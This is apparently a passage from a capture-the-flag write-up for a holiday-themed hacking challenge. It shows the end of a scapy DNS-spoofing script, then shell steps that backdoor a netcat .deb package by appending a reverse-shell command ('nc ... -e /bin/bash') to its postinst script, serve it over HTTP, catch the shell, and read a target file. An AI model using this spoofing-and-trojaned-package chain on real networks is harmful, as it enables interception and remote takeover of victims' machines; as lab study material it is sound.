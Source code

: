 ```python
        "dst host {}".format(ipaddr_we_arp_spoofed),    # destination ip we had spoofed (not our real ip)
        "ether dst host {}".format(macaddr)             # our macaddress since we spoofed the ip to our mac
    ] )
    
    sniff(filter=berkeley_packet_filter, prn=handle_dns_request, store=0, iface="eth0", count=100)

if __name__ == "__main__":
    main()
```

* prepare a crafted .deb-package

```bash
  mkdir package    
  cd package/    
  cp ../debs/netcat-traditional_1.10-41.1ubuntu1_amd64.deb .    
  dpkg -x netcat-traditional_1.10-41.1ubuntu1_amd64.deb work
  mkdir work/DEBIAN    
  ar -x netcat-traditional_1.10-41.1ubuntu1_amd64.deb
  tar -xf control.tar.xz ./control     
  tar -xf control.tar.xz ./postinst     
  mv control work/DEBIAN/           
  mv postinst work/DEBIAN/    
  echo "nc 10.6.0.2 4444 -e /bin/bash" >> work/DEBIAN/postinst   
  dpkg-deb --build work
  mv work.deb suriv_amd64.deb   
```

* prepare folder-structure for http-server and start the server in one tmux-tab

```bash
  mkdir pub/  
  mkdir pub/jfrost/   
  mkdir pub/jfrost/backdoor
  mv suriv_amd64.deb pub/jfrost/backdoor/
  python3 -m http.server 80
```

* open a listing netcat-instance in one tmux-tab

```bash
  nc -lp 4444 
```

* start dns_resp.py in one tmux-tab
* start arp_resp.py in one tmux-tab
* switch back to the tmux-tab where ncat is listing and `cat /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt`
* this leads to the info, that `Tanta Kringle` recused herself from the vote.


# Terminal Chalenges
